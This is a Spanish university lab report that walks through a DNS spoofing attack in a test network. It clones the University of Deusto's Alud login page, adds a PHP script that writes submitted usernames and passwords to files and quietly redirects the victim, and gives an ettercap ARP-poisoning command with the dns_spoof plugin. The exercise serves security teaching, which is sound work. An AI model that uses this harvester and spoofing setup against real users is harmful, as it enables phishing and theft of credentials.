

# DNS Spoofing (Práctica 5)

> Ibai Guillén Pacho
> 

> Ing. Informática + TDE
> 

# Objetivo de la práctica

Replicar la página de Alud y redirigir todo el tráfico que vaya a ella desde el ordenador de la víctima. Como opcional se podrían interceptar las credenciales del usuario.

# Herramientas

### Ettercap

Ettercap es un interceptor/sniffer/registrador para LANs con switch. Sirve en redes LAN conmutadas, aunque es utilizado para auditorías en distintos tipos de redes. Soporta direcciones activas y pasivas de varios protocolos.

[Ettercap Home Page](https://www.ettercap-project.org/)

# Ataque

<aside>
📌 Antes de realizar cualquier ataque de dns spoofing lo recomendable es tener todo preparado antes de empezar a suplantar al servicio, por lo cual primero pondremos a punto el servidor de phising y después empezaremos a suplantar el tráfico.

</aside>

## Creación de serdor web con Apache2

Para crear un servidor de apache en el ordenador bastará con instalarlo mediante:

```bash
sudo apt-get install apache2
```

Y para iniciarlo basta con:

```bash
service apache2 start
```

Acto seguido si accedemos a la página [localhost](http://localhost) podremos ver como aparece la página de que está todo correcto.



## Puesta en marcha de la página de phising

Una vez tengamos nuestro servidor de apache corriendo sin problemas nos pondremos a cambiar la página de inicio. Como nuestro objetivo es interceptar la página de alud.deusto.es copiaremos su diseño tal cual de la siguiente forma.

1. Nos dirigiremos a la página, y una vez ahí daremos botón derecho y pulsaremos en guardar página como.
    
    
    
2. Pondremos de nombre `index.html` para que apache lo lea sin problemas, acto seguido lo guardaremos.
    
    
    
3. Moveremos los documentos a la carpeta donde se encuentra alojado el servidor de apache y sobrescribiremos el contenido.
    
    
    
4. Accederemos a la página de [localhost](http://localhost) de nuevo para ver que todo esté bien.
    
    
    

## Proceso de intervención de credenciales [EXTRA]

Para poder intervenir las credenciales que se van a lanzar en esta página habría que estudiar el caso detenidamente y buscar la opción de que al dar al botón acceder los datos se copien en el servidor.

Indagando en el archivo index.html buscaremos el campo `<form>` para poder analizar que opciones tenemos.


En este caso como podemos observar, el form toma una acción de llamar a un fichero php del dominio, por lo cual por aquí podremos atacar.

Primero que nada cambiaremos esa ruta a un fichero php nuestro, para poder interceptar así las contraseñas y guardarlas en un fichero:


En este fichero escribiremos lo siguiente:

```php
<?php
if(isset($_POST['username']) && isset($_POST['password'])) {
    $data = $_POST['username'] . '-' . $_POST['password'] . "\n";
    $filename = date('YmdHis').".txt";
    if (!file_exists($filename)) {
        $fh = fopen($filename, 'w') or die("Can't create file");
    }
    $ret = file_put_contents($filename, $data, FILE_APPEND | LOCK_EX);
    if($ret === false) {
        //There was an error writing this file
    }
header("Location: https://alud.deusto.es/login/index.php");
exit();
}
?>
```

Este fichero por lo tanto interceptaría que el formulario se ha mandado, crearía un fichero con el timestamp del momento y metería en el el usuario y la contraseña separados por un guion. Acto seguido redirigiría a la página de alud convencional, como si nada hubiera pasado, para que la persona no sospeche.

<aside>
⚠️ Atención, para que apache pueda crear los ficheros para alojar los datos de los usuarios es indispensable darle permisos de escritura al usuario www-data sobre el directorio.

</aside>

```bash
sudo chown www-data /var/www/html/
```

## Puesta en marcha de Ettercap

Primero que nada, para realizar un dns spoofing hay que saber cual es la dirección IP de la víctima, la IP del default gateway y la página que queremos suplantar.

Una vez tengamos todos los datos anteriores nos iremos a editar el fichero `etter.dns` en el directorio `/etc/ettercap/etter.dns`, una vez dentro del fichero añadiremos la página que queremos interceptar y la url a la que queremos redirigir el tráfico:


<aside>
ℹ️ En este caso se redirigirá el tráfico al mismo ordenador del atacante, aunque se suele redirigir a servidores configurados previamente para ataques de phising.

</aside>

Una vez esté la página en la lista deberemos poner en marcha ettercap para proceder a realizar el arp sniff para poder realizar el dns spoof. Para ello bastará con utilizar el siguiente comando, que a través de la interfaz ethernet 0 del dispositivo y con el plugin dns_spoof activado procederá a sniffear todo el tráfico entre la víctima y el default gateway.

```bash
ettercap -T -q -i eth0 -M arp:remote -P dns_spoof /192.168.145.130// /192.168.145.2//
```

<aside>
ℹ️ De esta forma si la víctima demanda una de las páginas de la lista de dns spoof el atacante responderá con la página que tenga alojada en su ordenador.

</aside>

## Víctima

De esta forma la víctima al logarse en alud le ocurriría lo siguiente:

1. Accederá a la página
    
    
    
2. Insertará sus datos de acceso y le dará al botón acceder.
    
    
    
3. Será redirigido a la página real
    
    
    
    <aside>
    🛠 Debido a problemas de version de internet explorer los elementos php de alud no están disponibles en la víctima. Desde cualquier otra máquina más actual, como la del atacante, se puede ver perfectamente el contenido. Véase el apartado de puesta en marcha de la página de phising.
    
    </aside>
    

## Resultados

Una vez ha habido alguien que haya entrado con sus credenciales saldrá un fichero en la carpeta de apache.


Este fichero contiene las credenciales que la víctima ha introducido antes de ser redirigida a la página original de alud.


# Documentación

Documentación trabajada en Notion, link al formato original:

[DNS Spoofing (Práctica 5)](https://www.notion.so/DNS-Spoofing-Pr-ctica-5-56b94aece46a49069c950b4748e22608)
